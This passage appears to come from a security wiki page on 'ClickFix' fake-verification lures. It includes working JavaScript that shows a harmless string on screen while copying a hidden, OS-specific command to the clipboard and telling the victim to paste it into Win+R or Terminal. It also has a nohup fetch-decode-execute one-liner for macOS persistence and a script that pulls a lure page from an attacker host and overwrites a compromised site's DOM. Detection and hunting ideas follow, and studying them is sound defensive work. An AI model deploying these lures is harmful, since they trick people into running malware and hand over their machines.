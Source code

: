 ```html
const shown = 'copy this: echo ok';            // benign-looking string on screen
const real = isWin ? psWin : (isMac ? shMac : 'echo ok');

function copyReal() {
  // UI shows a harmless string, but clipboard gets the real command
  navigator.clipboard.writeText(real).then(()=>{
    document.getElementById('tip').textContent = 'Now press Win+R (or open Terminal on macOS), paste and hit Enter.';
  });
}

document.getElementById('chk').addEventListener('click', copyReal);
</script>
```

macOS persistence of the initial run
- Use `nohup bash -lc '<fetch | base64 -d | bash>' >/dev/null 2>&1 &` so execution continues after the terminal closes, reducing visible artifacts.

In-place page takeover on compromised sites
```html
<script>
(async () => {
  const html = await (await fetch('https://attacker[.]tld/clickfix.html')).text();
  document.documentElement.innerHTML = html;                 // overwrite DOM
  const s = document.createElement('script');
  s.src = 'https://cdn.tailwindcss.com';                     // apply Tailwind styles
  document.head.appendChild(s);
})();
</script>
```

Detection & hunting ideas specific to IUAM-style lures
- Web: Pages that bind Clipboard API to verification widgets; mismatch between displayed text and clipboard payload; `navigator.userAgent` branching; Tailwind + single-page replace in suspicious contexts.
- Windows endpoint: `explorer.exe` → `powershell.exe`/`cmd.exe` shortly after a browser interaction; batch/MSI installers executed from `%TEMP%`.
- macOS endpoint: Terminal/iTerm spawning `bash`/`curl`/`base64 -d` with `nohup` near browser events; background jobs surviving terminal close.
- Correlate `RunMRU` Win+R history and clipboard writes with subsequent console process creation.

See also for supporting techniques

{{#ref}}
clone-a-website.md
{{#endref}}

{{#ref}}
homograph-attacks.md
{{#endref}}

## Mitigations
